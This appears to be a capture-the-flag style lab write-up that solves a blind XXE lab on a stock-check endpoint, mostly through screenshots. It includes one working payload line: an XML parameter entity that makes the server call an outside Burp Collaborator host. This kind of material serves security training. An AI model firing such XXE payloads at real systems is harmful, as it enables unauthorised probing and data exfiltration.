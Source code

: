 # Lab: Blind XXE with out-of-band interaction via XML parameter entities

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3905891a-1a74-4761-9e06-41028cfecd11)

## Solution

The application has a product stock check endpoint.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0df8e00c-553a-4690-b2e7-4b279df894a3)

The application checks for the stock level of a product by submitting XML to the server:

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/748a8a83-c784-4600-a07e-a5e5c8183289)

Go to burp collaborator and click on **copy to clipboard**.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/69f3423f-2df6-412e-89e1-72f6123b43c8)

Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

`<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/7f1b0b8b-6051-452d-abc3-f299783b8afe)

Some DNS and HTTP interactions that were initiated by the application as the result of our payload.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ed8c9758-f764-4102-a037-a25f9d6eafb3)

Causing this DNS interactions solves the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/12e6f636-360f-4dd9-ab15-8abedbb3a4bb)
